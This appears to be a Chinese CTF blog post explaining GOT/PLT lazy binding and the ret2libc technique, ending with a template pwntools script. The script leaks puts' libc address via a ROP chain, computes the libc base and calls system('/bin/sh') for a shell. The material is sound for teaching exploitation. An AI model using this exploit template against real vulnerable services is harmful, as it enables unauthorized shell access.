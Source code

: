 ```yaml
---
title: GOT与PLT
description: 从静态链接到ret2libc
categories: [CTF,pwn]
tags: [CTF]
image: 
    path: assets/img/bg/pic01.jpg
    lqip: assets/img/bg/pic01.jpg

---
```


GOT与PLT表是程序用于动态链接中延迟绑定功能的重要结构，在ret2libc类题型中非常重要，之前一直不是十分理解它的原理，故在此进行梳理总结。

# 链接

C程序在使用printf等库函数时需要在程序中使用
```C
#include<stdio.h>
```
等语句将包含了这些库函数定义的头文件包含到程序中，在编译程序后将包含了这些函数实现的libc库链接到程序中，最后在运行程序时将程序从磁盘中加载到内存里运行。因此可以看出链接方式的不同在程序静态的存储与动态的运行两个方面都会产生差异。

静态链接在程序编译完成后直接将整个libc库链接到了程序中，因此每个使用了libc库函数的静态链接程序都会包含一整份libc，即使他只用了其中一两个函数，即使运行在同一环境下的其他程序都有一份libc库，所以这其中必然造成大量的存储开销。只在当前环境下存储一份libc库，等到程序实际运行时再将其链接到程序中很明显要更优于此法。

动态链接就是再程序运行时链接库的链接方式，但当我们去实际思考它的实现方法时就会意识到一个重要的问题：

**如果等到运行时再连接库函数，那么静态文件中库函数的调用语句中库函数的地址该怎么写**  

很容易想到一个在计算机领域广泛应用的方法：添加一个中间层。一步做不到的事就分两步做。

GOT表就是这样的一个中间层。

# GOT表与地址绑定
既然在没有运行时无法得到具体库函数的地址，但又需要在程序中填一个地址，那么一个很自然的想法就是使用一张表格预先为每一个库函数分配一个表项，用这张跳转表的各个表项的内容作为库函数的实际地址，如：
```asm
call GOT[printf]
```
而在静态程序中这张表初始化为空，几乎不占用内存空间，运行程序时再把各个库函数的实际地址填写到这张表中即可。

**所以这里需要明确一个关键的认知：GOT表中存放的是库函数的实际地址，是数据，而不是调用这些库函数的语句**

但它也带来了新的问题：

除了为libc函数分配地址之外，他还多了一步将所有库函数的地址绑定到GOT表中这一步，而这一步会使程序的启动变得相当缓慢，另一方面，可能绑定的库函数不一定都会用得上。为解决这个问题，PLT应运而生。

# PLT表与延迟绑定
既然不能在程序启动时把所有的库函数都绑定到GOT表中，那么就考虑在程序初次使用该函数时再绑定，因此再添加一个中间步骤，程序在调用函数时使用的地址设为对应的PLT表项的地址。

PLT表为程序提供了一个调用库函数的跳板，PLT表中有多个表项，分别存储对应的多个库函数的相关语句，一般可以分为三个基本的语句，如：
```C
printf@plt:
    jmp QWORD PTR [GOT[printf]]  ; 1.跳转到 GOT 中保存的地址
    push offset_of_printf        ; 2.压入函数标识符
    jmp plt[0]                   ; 3.跳转到动态链接器
```
而GOT表中初始化存储库函数地址就是的就是对应的统一库函数plt表项中的2号语句，换言之，程序在初次执行一个库函数时，会直接跳转到它对应的plt表项的位置，其中是一组命令，第一条命令是跳转到*GOT表中保存的地址对应的位置*，第二条和第三条用于进行动态链接，第一次执行时*GOT表中保存的地址对应的位置*就是进行动态链接的语句的位置，完成动态链接后GOT表中对应表项存储的就是库函数的实际地址。当第二次执行该库函数时，程序仍然跳转到PLT表的表项，但此时该表项中的第一条语句就会直接带着程序跳转到实际的地址。

即：第一次执行plt表中语句时会进行动态绑定，之后执行plt表中语句会执行实际的函数

这里特意强调执行**plt表中的语句**，而不是库函数的实际语句，是因为我们在ROP题目中执行库函数的方法需要区分为三种，难度逐级上升：
1. ret到程序中原有的**call 库函数**的语句(即ret2text)
2. ret到已经实现过动态绑定的库函数的plt表项语句(库函数@plt)
3. ret到库函数映射到程序地址空间中的实际地址

三种方法中实际地址最为万能，因此ret2libc的目的就在于获取到库函数的实际地址，而在获取到实际地址时我们若想要执行一些库函数，就只能使用一些已经在程序中显式调用过的函数，使用他们的plt表项中的语句来执行他们(**plt表与GOT表的地址是在静态程序中可以直接得到的，而libc的实际地址每次运行都会变**)。

因此ret2libc的关键操作就在于获取该进程中libc库函数system的实际地址，只要掌握了这个地址，无论源程序中是否有调用过system函数我们都可以执行system函数。

为获取这个函数地址我们首先要明确两点：
1. libc中各库函数的相对偏移地址仅仅于libc的版本有关
2. libc在实际程序中的基地址每次运行时都会变化

所以我们只需要利用前两种函数执行的方法泄露出任何一个库函数的实际地址(GOT表项的内容)我们就可以知道libc中任何一个函数的实际地址。

一段模板利用脚本及解析如下：
```python
from pwn import *

binary = "pwn.bin"
elf = ELF(binary)
libc = ELF("libc.so.6")

puts_offset = libc.symbols["puts"]
bin_sh_offset = next(libc.search(b"/bin/sh"))
# 由ROPgadget获取
pop_rdi_ret_addr = p64(0x000000000040117e) 

# p = remote(host,ip)
p = process("/mnt/d/Learning/fifith_grade/level-progress/pwn/ret2libc/pwn.bin")
payload = b"A"*64 + b"B"*8
payload += pop_rdi_ret_addr
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(elf.symbols["vuln"])  #最后还要返回到vuln函数
p.sendlineafter("Go Go Go!!!", payload)
# 打印出puts函数的真实地址

# 重点关注一下这个格式
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))  


libc_base = puts_addr - puts_offset
print(f"成功泄露libc基地址:{hex(libc_base)}")
payload2 = b"A"*64 + b"B"*8
payload2 += p64(0x000000000040117e + 1)   #栈平衡
payload2 += pop_rdi_ret_addr
payload2 += p64(libc_base + bin_sh_offset)
payload2 += p64(libc_base + libc.symbols["system"])
p.sendline(payload2)
p.interactive()
```